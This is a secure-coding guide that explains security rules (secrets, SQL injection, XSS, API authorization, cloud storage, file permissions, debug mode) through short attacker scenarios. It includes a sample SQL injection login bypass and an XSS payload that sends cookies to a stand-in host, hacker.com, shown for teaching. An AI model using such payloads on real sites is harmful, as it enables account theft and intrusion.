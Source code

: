 # VibeCoding Security Guidelines Explained: Why We Insist So Much?

This document explains the importance of each rule in the "Security Guidelines". Understanding these will help you view your code from a "hacker's perspective" and prevent problems before they occur.

---

## ⭐ Golden Rules

### 【Never Hardcode Secrets】 & 【Use Environment Variables】 & 【Ignore Secret Files】

**Why is this important?**

These three are the highest survival laws in the digital world. Your code (especially when using Git) will be copied, shared, and stored in multiple places. Writing passwords, API keys, and other "secrets" directly in code is like tattooing your safe's password on your forehead - anyone who sees you (sees the code) can easily open your safe. The `.env` file is your private safe, and `.gitignore` is the security system that ensures this safe won't be accidentally packaged and sent to others.

**Hacker's Playbook 😈**
> I love searching GitHub for `password`, `api_key`, or `db_connect`. I found your public project, and in a file called `config.js`, I saw this code: `const db_password = 'Password123!';`. Perfect! I don't even need to attack your website - I can now directly try to log into your database with this password.

**Disaster Consequences 💥**

**Complete service takeover.** Hackers can steal, tamper with, or delete all your user data, or use your paid API services (e.g., sending mass emails, using map services) for illegal activities, with all bills charged to you.

---

## 📥 Handling User Input

### 【Prevent Injection Attacks (SQL Injection)】

**Why is this important?**

Imagine the database as a robot that only understands SQL language. If you directly concatenate user input with your commands, users have the opportunity to speak their own "commands". Parameterized queries tell the robot: "Listen, the next part is **just data** - no matter what the content is, don't execute it as commands."

**Hacker's Playbook 😈**
> In your website's login box, I entered `' OR '1'='1' --` as the username. I guess your SQL query is written like this: `"SELECT * FROM users WHERE username = '" + userInput + "';"`. My input turned it into `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` is always true, so I bypassed password verification and successfully logged into the first user's account (usually the administrator).

**Disaster Consequences 💥**

Attackers can bypass login, steal entire database data (user lists, password hashes), or even delete the database.

### 【Prevent Cross-Site Scripting (XSS)】

**Why is this important?**

If your website is like a mirror that directly reflects user input content, then users can embed malicious JavaScript scripts in the content. When other users browse this content, the malicious script will execute in their browsers, stealing their information. HTML entity encoding converts special characters in malicious scripts (like `<`, `>`) into harmless plain text, making them unable to execute.

**Hacker's Playbook 😈**
> I left a comment in your article comment section: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. This text was stored in the database as-is. Now, any user reading this comment will have their browser automatically execute this script, sending their login cookies to my server. With the cookies, I can impersonate their identity to log into the website.

**Disaster Consequences 💥**

Large-scale user account theft, personal data leakage, websites being implanted with phishing content or mining scripts.

---

## 🔐 Permissions & Authentication

### 【API Endpoint Protection】

**Why is this important?**

Frontend interfaces (UI) can hide buttons, but hackers never rely on interfaces. They will directly call your backend APIs using tools (like Postman, curl). You must assume every API endpoint will be directly attacked, so each endpoint must be an independent guard, checking the visitor's identity and permissions by itself.

**Hacker's Playbook 😈**
> I discovered that to modify personal information, the frontend sends a request to `/api/user/update`. Although I can't see other people's modify buttons, I guess this API might distinguish users through `userId`. I tried sending a request to `/api/user/update?userId=1` (administrator's ID) with the data I want to modify. Oh my, the server didn't check if the request was from me personally and successfully changed the administrator's email!

**Disaster Consequences 💥**

Regular users can tamper with other users' or even administrators' data, or execute permissions they shouldn't have, causing system chaos.

---

## ☁️ External Services & Cloud Integration

### 【External Database Firewall】 & 【Cloud Storage Privatization】

**Why is this important?**

Your cloud database and storage space are like your private warehouse in the cloud. You would never leave your warehouse doors wide open for the whole world to enter. Firewalls and privatization settings create a solid wall and locked door for your warehouse, only allowing your application (specified IP addresses) - this "authorized truck" - to enter and exit.

**Hacker's Playbook 😈**
> I used tools to scan your company's IP range and found an AWS S3 bucket that is "public". I clicked in and saw it was full of ID photos uploaded by your users and scanned company contracts. All file lists were visible at a glance, and I downloaded everything.

**Disaster Consequences 💥**

All stored sensitive data (user personal information, company confidential documents) is stolen in one go, causing devastating data breach incidents.

---

## ⚙️ Files & Server Configuration

### 【Never Use 777】

**Why is this important?**

Permission `777` means "read, write, execute" permissions are open to "owner, group, others" - everyone. This is like leaving your front door unlocked and posting a note saying "Welcome anyone to come in, live, graffiti, throw parties". If hackers can upload a file, `777` permissions give them the power to execute this file.

**Hacker's Playbook 😈**
> I discovered your website's image upload function has a small vulnerability - it doesn't strictly limit the file types I upload. I uploaded a malicious backdoor program called `shell.php`, disguised as `image.jpg.php`. Because your upload directory permissions are `777`, the server allows me to "execute" this file. Now I just need to visit `yoursite.com/uploads/shell.php` to do whatever I want on your server.

**Disaster Consequences 💥**

Complete server compromise. Hackers can steal all code and data, turn your server into a zombie host for launching cyber attacks, or plant ransomware.

### 【Disable Debug Mode】

**Why is this important?**

Debug mode is a great helper during development, but in production environments, it's like a chattering insider. When the website errors, it will completely display extremely sensitive information like server internal paths, database query statements, configuration variables on error pages, essentially providing hackers with a detailed attack map.

**Hacker's Playbook 😈**
> I deliberately entered some special characters in your website's search box to cause program errors. The website immediately returned a detailed error page showing `Error in /var/www/html/app/models/User.php on line 52`, along with the erroring SQL query statement. Now I know your file structure, the programming framework you use, and even the database table names. My next attack will be much more precise.

**Disaster Consequences 💥**

Leaking massive amounts of internal system information, significantly reducing hacker attack difficulty, allowing them to find real vulnerabilities much faster.